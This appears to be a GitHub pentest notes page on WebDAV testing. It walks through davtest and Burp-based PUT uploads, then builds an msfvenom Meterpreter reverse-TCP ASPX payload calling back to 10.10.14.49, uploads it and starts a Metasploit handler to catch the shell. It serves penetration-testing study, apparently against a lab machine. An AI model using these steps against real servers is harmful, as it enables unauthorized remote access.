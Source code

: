 # Webdav Testing

## Davtest

```
$davtest -url http://url-of-the-host
```

## Davtest through proxy

```
Open Burp
Setup new proxy listener
Set local listener port *(80) 
Set remote host (10.10.10.15)
Set remote port (80)
```

## Setting up proxy 

![Davtest-01](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-01.png)

## Confirming Webdav Manipulation

![Davtest-02](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-02.png)

## Davtest

![Davtest-03](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-03.png)

## Test upload using post

```
1) Send one of the PUT request to the repeater tab
2) Modify the URL to /test.html or whatever you like
3) In the body add some text and send the request (shold get 201)
```

![Davtest-04](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-04.png)

![Davtest-05](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-05.png)

## Create an Msfvenom Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.49 LPORT=443 -f aspx
```

## Upload Msfvenom Shell using PUT

```
1) Using the PUT request in repeater tab, modify the destination to /shell.html
2) In the body, take contents of the .ASPX Msfvenom shell and paste
3) Send the request (should get 201)
```

![Davtest-06](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-06.png)

## Setup Multihandler in Msfconsole to catch our Shell

```
1) Msfconsole
2) Use exploit/multi/handler
```

![Davtest-07](https://github.com/billburn/penetration-testing/blob/master/Webdav/Images/davtest-07.png)
